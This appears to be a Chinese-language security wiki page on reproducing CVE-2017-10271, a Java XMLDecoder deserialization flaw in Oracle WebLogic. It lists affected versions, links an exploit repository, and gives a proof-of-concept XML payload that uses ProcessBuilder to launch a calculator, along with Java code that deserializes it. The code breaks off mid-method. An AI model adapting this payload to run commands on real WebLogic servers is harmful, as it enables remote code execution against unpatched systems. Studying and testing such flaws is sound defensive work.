 # (CVE-2017-10271)Java 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Weblogic/（CVE-2017-10271）.html](http://book.iwonder.run/0day/Weblogic/（CVE-2017-10271）.html)

## 一、漏洞简介

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

## exp

[https://github.com/ianxtianxt/-CVE-2017-10271-](https://github.com/ianxtianxt/-CVE-2017-10271-)

## poc

xml 文件

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java> 
```

读取 xml 文件，进行反序列化执行命令代码：

```
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class xmlrce {

    public static void main(String[] args) {
        // TODO Auto-generated method stub
        java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");

        java.beans.XMLDecoder xd = null;
        try {
            xd = new java.beans.XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
        } catch (FileNotFoundException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }

        Object s2 = xd.readObject();
        xd.close();
```